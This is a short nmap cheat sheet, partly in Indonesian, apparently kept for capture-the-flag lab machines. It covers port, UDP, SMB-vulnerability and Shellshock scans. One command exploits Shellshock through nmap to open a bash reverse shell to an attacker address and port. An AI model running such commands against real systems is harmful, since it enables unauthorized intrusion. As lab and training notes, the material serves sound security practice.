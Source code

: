 # SCANNING WITH NMAP 

sudo nmap -sC -sV -vv 10.10.10.229 


# Kalo gabisa konek + gaada port open 

    nmap -p 21,22,139,445,3632 -sV -sC -oA scans/tcpscripts <host>

# Scan SMB vuln

    nmap --script smb-vuln* -p 445 10.10.10.40 

# Scan shellshock vuln

    nmap -p80 -sV --script http-shellshock --script-args "uri=/cgi-bin/user.sh" 10.10.10.56

PS: `uri=` di temukan pada target machine

# Exploit shellshock vuln

getting reverse shell from shellshock vuln

    nmap -p80 -sV --script http-shellshock --script-args "uri=/cgi-bin/user.sh,cmd=/bin/bash -i >& /dev/tcp/10.10.14.20/1337 0>&1" 10.10.10.56

# enum tcp

    nmap -sU --top-ports 200 10.10.10.21  

or 

    nmap -sU --top-ports 200 -oA scans/nmap-udptop200 10.10.10.21  

# scan all port

    nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.160

# scan nmap 

    nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.76

# scan for several ports

    nmap -sV -sC -p 79,111,22022,65258 -oA nmap/scripts 10.10.10.76